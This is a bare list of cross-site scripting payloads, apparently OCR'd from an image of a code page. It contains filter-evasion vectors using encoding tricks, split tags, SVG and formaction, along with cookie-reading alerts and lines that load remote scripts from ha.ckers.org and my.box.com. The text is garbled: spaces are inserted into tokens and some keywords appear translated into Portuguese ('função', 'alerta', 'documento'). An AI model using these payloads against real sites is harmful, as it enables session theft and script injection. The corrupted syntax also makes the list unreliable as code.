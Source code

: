 <SCRIPT> document.write ("<SCRI"); </SCRIPT> PT SRC = "http://ha.ckers.org/xss.js"> </SCRIPT>
<form id = "test" /> <button form = "test" formaction = "javascript: alert (123)"> TESTHTML5FORMACTION
<form> <button formaction = "javascript: alert (123)"> crosssitespt
<frameset onload = alert (123)>
<! - <img src = "-> <img src = x onerror = alert (123) //">
<style> <img src = "</style> <img src = x onerror = alert (123) //">
<object data = "data: text / html; base64, PHNjcmlwdD5hbGVydCgxKTwvc2NyaXB0Pg ==">
<embed src = "data: text / html; base64, PHNjcmlwdD5hbGVydCgxKTwvc2NyaXB0Pg ==">
<embed src = "javascript: alert (1)">
<? foo = "> <script> alert (1) </script>">
<! foo = "> <script> alert (1) </script>">
</ foo = "> <script> alert (1) </script>">
<script> ({0: # 0 = alert / # 0 # / # 0 # (123)}) </script>
<script> ReferenceError.prototype .__ defineGetter __ ('nome', função () {alert (123)}), x </script>
<script> Object .__ noSuchMethod__ = Function, [{}] [0] .constructor ._ ('alert (1)') () </script>
<script src = "#"> {alert (1)} </script>; 1
<script> crypto.generateCRMFRequest ('CN = 0', 0,0, nulo, 'alert (1)', 384, nulo, 'rsa-dual-use') </script>
<svg xmlns = "#"> <script> alert (1) </script> </svg>
<svg onload = "javascript: alert (123)" xmlns = "#"> </svg>
<iframe xmlns = "#" src = "javascript: alert (1)"> </iframe>
+ ADw-script + AD4-alert (document.location) + ADw- / script + AD4-
% 2BADw-script + AD4-alert (document.location)% 2BADw- / script% 2BAD4-
+ ACIAPgA8-script + AD4-alert (document.location) + ADw- / script + AD4APAAi-
% 2BACIAPgA8-script% 2BAD4-alert% 28document.location% 29% 2BADw-% 2Fscript% 2BAD4APAAi-
% 253cscript% 253ealert (document.cookie)% 253c / script% 253e
“> <S”% 2b ”cript> alerta (document.cookie) </script>
“> <ScRiPt> alert (document.cookie) </script>
“> <<script> alert (document.cookie); // <</script>
foo <script> alert (document.cookie) </script>
<scr <script> ipt> alert (document.cookie) </ scr </script> ipt>
% 22 /% 3E% 3CBODY% 20onload = 'document.write (% 22% 3Cs% 22% 2b% 22cript% 20src = http: //my.box.com/xss.js%3E%3C/script%3E% 22) '% 3E
'; alerta (documento.cookie); var foo = '
foo \ '; alert (document.cookie); // ';
</script> <script> alert (document.cookie) </script>
<img src = asdf onerror = alert (document.cookie)>
<BODY ONLOAD = alert ('XSS')>
<script> alert (1) </script>
"> <script> alert (String.fromCharCode (66, 108, 65, 99, 75, 73, 99, 101)) </script>
<vídeo src = 1 onerror = alert (1)>
<áudio src = 1 onerror = alert (1)>


